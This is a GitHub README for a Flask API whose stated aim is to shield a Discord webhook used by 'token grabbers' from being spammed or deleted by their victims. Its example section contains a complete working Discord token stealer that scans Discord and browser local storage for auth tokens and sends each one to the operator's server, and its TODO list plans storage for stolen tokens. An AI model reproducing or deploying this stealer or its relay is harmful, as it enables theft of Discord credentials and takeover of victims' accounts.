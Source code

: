 # Discord Webhook Protection

 A simple Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
# change to your secret defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw'

# constants
API_URL = f'http://{API_IP}:{API_PORT}/grab?secret={SECRET}&token=%s'
LOCAL = os.getenv('LOCALAPPDATA')
ROAMING = os.getenv('APPDATA')
PATHS = {
    'Discord': ROAMING + '\\Discord',
    'Discord Canary': ROAMING + '\\discordcanary',
    'Discord PTB': ROAMING + '\\discordptb',
    'Google Chrome': LOCAL + '\\Google\\Chrome\\User Data\\Default',
    'Opera': ROAMING + '\\Opera Software\\Opera Stable',
    'Brave': LOCAL + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
    'Yandex': LOCAL + '\\Yandex\\YandexBrowser\\User Data\\Default'
}

tokens = []

for platform, path in PATHS.items():
    if os.path.exists(path) is False:
        continue

    path += '\\Local Storage\\leveldb'

    for file_name in os.listdir(path):
        if not file_name[-4:] in ('.log', 'ldb'):
            continue

        with open(f'{path}\\{file_name}', errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

if len(tokens) == 0:
    exit()

for token in tokens:
    try:
        res = requests.get(API_URL % token)  # sends token to your API
    except:
        pass
```

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py`

## TODO

[ ] Set up a MySQL database to store tokens, used to prevent dupes
[ ] IP-address based rate limit to prevent abusers from flooding the API
[ ] Support multiple tokens in a single request using `,` seperator
